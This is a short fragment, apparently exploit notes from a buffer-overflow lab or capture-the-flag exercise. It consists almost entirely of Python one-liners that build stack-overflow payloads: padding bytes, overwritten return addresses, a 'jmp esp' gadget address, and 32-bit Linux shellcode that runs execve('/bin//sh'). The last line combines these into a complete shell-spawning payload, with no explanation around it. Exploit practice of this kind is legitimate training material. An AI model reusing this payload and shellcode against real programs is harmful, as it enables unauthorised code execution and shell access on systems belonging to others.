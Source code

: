 $(python -c "print 'A' * 20 + '\x51\xd8\xff\xff' + '\x41' * 8")

$(python -c "print 'A' * 20 + '\x50\xd8\xff\xff' + '\x78\xd6\xff\xff' + 'CCCC'")

jmp esp: 0xf7fc4f97

"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"

$(python -c "print 'A' * 20 + '\x50\xd8\xff\xff' + '\x78\xd6\xff\xff' + '\x97\x4f\xfc\xf7' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'")
